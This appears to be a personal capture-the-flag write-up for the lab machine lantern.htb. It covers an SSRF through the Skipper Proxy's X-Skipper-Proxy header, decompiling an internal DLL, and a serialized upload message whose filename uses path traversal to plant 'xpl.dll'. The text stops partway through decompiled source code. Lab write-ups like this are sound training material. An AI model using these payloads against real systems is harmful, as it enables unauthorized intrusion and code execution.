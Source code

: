```json
ÚÀ·BeginInvokeDotNetFromJS¡4À¬NotifyChangeÙª[[{"blob":{},"size":4608,"name":"../../../../../../opt/components/xpl.dll","id":1,"lastModified":"2024-08-24T03:27:34.810Z","contentType":"application/x-msdos-program"}]]
```




\
Here is my note  
# user  
  
## lantern.htb, when you visit the webserver the response server show that it is using Skipper Proxy and it has SSRF  
  
[https://www.exploit-db.com/exploits/51111](https://www.exploit-db.com/exploits/51111)  
  
  
  
## Add the x-skipper-proxy to header and make request to  
  
[http://lantern.htb/_framework/InternaLantern.dll](http://lantern.htb/_framework/InternaLantern.dll)  
  
Host: BOX_IP  
  
...  
  
User-Agent: ...  
  
X-Skipper-Proxy: localhost  
  
  
  
## decompile the dll  
  
ilspycmd InternaLantern.dll -o source_code  
  
## there is base64 string  
  
  
  
new Employee  
  
                                                {  
  
                                                        Uid = "POMBS",  
  
                                                        Name = "Travis",  
  
                                                        SecondName = "Duarte",  
  
                                                        BirthDay = new DateTime(1999, 7, 23).ToShortDateString(),  
  
                                                        JoinDate = new DateTime(2024, 1, 21).ToShortDateString(),  
  
                                                        Salary = 90000,  
  